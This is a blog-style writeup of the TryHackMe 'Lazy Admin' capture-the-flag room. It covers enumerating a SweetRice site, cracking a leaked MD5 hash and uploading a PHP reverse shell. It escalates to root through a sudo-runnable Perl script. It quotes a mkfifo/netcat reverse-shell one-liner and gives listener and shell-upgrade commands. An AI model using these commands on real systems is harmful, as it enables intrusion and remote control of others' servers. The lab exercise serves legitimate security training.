<h2 class="menu-header" id="main">
<a href="https://github.com/Mithlonde/Mithlonde">Root</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/blog/index.md">Blog</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/projects/index.md">Projects</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/all-writeups.md">Writeups</a>&#xA0;&#xA0;&#xA0;
<a href="https://github.com/Mithlonde/Mithlonde/blob/main/thm/2023-12-30-lazy-admin.md">~/Lazy-Admin</a>&#xA0;&#xA0;&#xA0;
</h2>

# 👾 Mithlonde
└─$ cat Writeups/THM/Lazy-Admin.md



*https://tryhackme.com/room/lazyadmin*<br />
`Linux` `SweetRice` `Backup Disclosure` `PrivEsc` `Sudo`

<br />

## TryHackMe CTF Writeup: Lazy Admin
- [Summary](#summary)
- [1. Enumeration](#1-enumeration)
  - [1.1 Nmap](#11-nmap)
  - [1.2 Web Discovery Port 80/tcp](#12-web-discovery-port-80-tcp)
  - [1.3 Gobuster](#13-gobuster)
- [2. Exploitation](#2-exploitation)
  - [2.1 Hashcat](#21-hashcat)
  - [2.2 Reverse PHP shell upload](#22-reverse-php-shell-upload)
- [3. Post Exploitation](#3-post-exploitation)
  - [3.1 User Flag](#31-user-flag)
  - [3.2 Privilege Escalation](#32-privilege-escalation)
  - [3.3 Root Flag](#33-root-flag)
- [4. Conclusion](#4-conclusion)
- [References](#references)

# Walkthrough

### Summary:

In this room, you'll learn how to exploit a Linux server using a misconfigured backup script and gain root privileges through the exploitation of a sudo misconfiguration. You'll be challenged to escalate your privileges from a low-level user to a root user by abusing vulnerabilities and misconfigurations in the system. 

This room is perfect for beginners who want to get some hands-on experience in privilege escalation and Linux exploitation. So, let's get started!

## 1. Enumeration 

### 1.1 Nmap:<a name="11-nmap"></a>

We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

-   **-sV**: detect service version
-   **-sC**: run default nmap scripts
-   **-T4**: sets aggressive timing options for faster scanning
-   **-oN**: write output to _nmap_ file



From the above output we can see that ports, **22**, and **80** are open with the corresponding services and versions. Additionally, the machine seems to be running on Ubuntu.

We can also see there is an apache web server running on port 80 called 'Apache2 Ubuntu Default Page' we seem to have access to. Using the Wappalizer it confirms both the server and OS.

### 1.2 Web Discovery (Port 80/tcp):<a name="12-web-discovery-port-80-tcp"></a>





Noticeable is that it has last been updated in 2014 as per the source code of this default page:



### 1.3 Gobuster:<a name="13-gobuster"></a>

Time to start gobuster, enumerate the directories and have the output written to a file:

```
gobuster dir -u http://10.10.168.121 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -z -o gobuster.txt
```

- **-u**: specify the target URL to scan
- **-w**: use the specified wordlist to brute-force the directories/files
- **-z**: don't display progress
- **-o**: output the results to a file

Which immediately came up with a /content page as shown below, where we can see **SweetRice** is being used.

SweetRice is an open-source web application that is designed to make it easy to create and manage websites. It is written in PHP and uses a MySQL database to store its data. However, there have been security vulnerabilities discovered in SweetRice that can allow attackers to gain unauthorized access to the system or sensitive information, so it is important to keep the application up to date and secure.

That being said, it might be vulnerable to Arbitrary File Upload as per https://www.exploit-db.com/exploits/40716.

```
cat gobuster.txt                                 
/content              (Status: 301) [Size: 316] [--> http://10.10.168.121/content/]
/server-status        (Status: 403) [Size: 278]
```



In the **source code** here we can see a javascript function possibly including the version number of the SweetRice dashboard (10.10.168.121/content/js/SweetRice.js):



I also noticed that in the Cross-Site Request Forgery / PHP Code Execution exploit (https://www.exploit-db.com/exploits/40700), 
localhost/sweetrice/as/ and localhost/sweetrice/inc/ where opted as possible directories. Ran gobuster another time adding the /content directory to the target url.

##### _Target IP changed several times throughout this walktrough due to rebooting the TryHackMe room._

Since the previous exploit provided /sweetrice/as/ as an possible directory, I tried accessing /content/as which lead to a php login page. 



This directory along with others was then also confirmed per our second gobuster scan. 

```
cat gobuster2.txt 
/images               (Status: 301) [Size: 323] [--> http://10.10.240.201/content/images/]
/js                   (Status: 301) [Size: 319] [--> http://10.10.240.201/content/js/]
/inc                  (Status: 301) [Size: 320] [--> http://10.10.240.201/content/inc/]
/as                   (Status: 301) [Size: 319] [--> http://10.10.240.201/content/as/]
/_themes              (Status: 301) [Size: 324] [--> http://10.10.240.201/content/_themes/]
/attachment           (Status: 301) [Size: 327] [--> http://10.10.240.201/content/attachment/]
```

**/content/inc/** for example states it is an Apache/2.4.18 (Ubuntu) Server at 10.10.240.201 Port 80.

---
## 2. Exploitation

In order to gain our initial foothold we need to look elsewhere. Both the Arbitrary File Download/Upload exploits as well as the /content/as login page all require an username and password.

Fortunately, there is another vulnerability https://www.exploit-db.com/exploits/40718:
```
Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup
```

We do indeed seem to have access to this mysql_backup, and from reading its content we find a possible password hash:







### 2.1 Hashcat:<a name="21-hashcat"></a>

Since it is being identified as a simple MD5 hash we could either use https://crackstation.net/ to crack it instead, or fire up hashcat instead.

```
┌──(mithlonde💀kali)-[~/ctf/tryhackme/lazyadmin]
└─$ man hashcat | grep -e MD5
       ported hashing algorithms are Microsoft LM Hashes, MD4, MD5, SHA-family, Unix Crypt formats, MySQL, Cisco
       0 = MD5

┌──(mithlonde💀kali)-[~/ctf/tryhackme/lazyadmin]
└─$ hashcat -m 0 '42f749ade7f9e195bf475f37a44cafcb' /usr/share/wordlists/rockyou.txt -O                      255 ⨯
hashcat (v6.2.5) starting
       
Session..........: hashcat
Status...........: Cracked

42f749ade7f9e195bf475f37a44cafcb:==Password123==

Credentials found so far:
user: Manager
passwd: Password123
```

Moving back to the login page we found earlier on, we can try the credentials as mentioned above and find that we are now connected to the mysql database. We can see the current dashboard version, and also have access to multiple directories including the Media Center.

### 2.2 Reverse PHP shell upload:<a name="22-reverse-php-shell-upload"></a>

We need to leverage the ability to upload a file and execute our payload that will eventually lead to compromising the server. After looking through all the possible menu items on the dashboard I noticed that on the **Plugin list** "the Archive only supports zip format" was stated.  Meaning, we will compress our PHP reverse shell to a zip file with `zip shell.zip shell.php` and select the **Extract zip archive** option as shown below. We then receive the file location of our now uploaded and renamed malicious .php file. 

>Download reverse PHP shell here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
>
>With this shell, make sure to change the following to indicate where you want the reverse shell thrown back to:
>
>
>
>Port will remain 1234, and our TryHackMe tun0 ip address can be confirmed through http://10.10.10.10 or `ifconfig` command.







All we have to do now is run a listener with `nc -lvnp 1234` on our attacker machine and navigate to where our upload has now been stored by clicking on the file in the dashboard `http://10.10.183.251/content/attachment/2e265b376d321c21f5110f7288a8f41d.php` (or we can simply `curl` it via the terminal). This immediately executed the payload and connected back to our netcat listener we had just initialized.



We now have low level user access to the web server as **www-data**.

---
## 3. Post Exploitation

Nevertheless, this shell is not stable right now. So let's solve that first so we will not accidentally kick ourselves out again.

1. The first thing to do is use `python3 -c 'import pty;pty.spawn("/bin/bash")'`, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified *(type `python -V` to print the current version number)*. If this is the case, replace `python` with `python2` or `python3` as required. At this point our shell will look a bit prettier, but we still won't be able to use tab to auto complete input, nor the arrow keys, and 'Ctrl + C' will still kill the shell.
2.  Step two is: `export TERM=xterm`, this will give us access to terminal commands such as `clear`.
3.  Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use `stty raw -echo; fg`. This does two things: first, it turns off our own terminal echo (which gives us access to use 'tab' to autocomplete our input, the arrow keys, and 'Ctrl + C' to kill processes). It then foregrounds the shell again, thus completing the process.

> **Note:** *that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.*

### 3.1 User Flag:<a name="31-user-flag"></a>

We now have a stable shell and can continue with our privilege escalation and cat the user flag located in the **/home/itguy** directory.



### 3.2 Privilege Escalation:<a name="32-privilege-escalation"></a>

Doing some initial enumeration to see what permissions we might have, we can quickly figure out that `sudo -l` shows we are not required to provide a password to run **/usr/bin/perl** as root and initiate the **/home/itguy/backup.pl** script. 



Whereas the **/home/itguy/backup.pl** file seems to be executing a Bash script. So let's cat that as well.



```
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

The Bash script in turn looks like another reverse shell connecting to the specified IP through port 5554. So let's change the IP address to our attacker machine, start another listener on our attacker machine through port 5554 and run the script as root by adding `sudo perl` to the **/home/itguy/backup.pl** command.

### 3.3 Root Flag:<a name="33-root-flag"></a>



And with that, we have the root flag!

---
## 4. Conclusion

In conclusion, the Lazy Admin room on TryHackMe offers a great opportunity to practice and improve your Linux privilege escalation skills. With the SweetRice Backup Disclosure vulnerability, we learned how to use publicly available information to gain access to sensitive files and escalate our privileges. Additionally, we discovered the power of sudo -l to uncover a weakness that allowed us to execute a script as root without providing a password.

---
## References
1. https://tryhackme.com/room/lazyadmin
2. https://www.exploit-db.com/exploits/40700
3. https://www.exploit-db.com/exploits/40716
4. https://www.exploit-db.com/exploits/40718
5. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
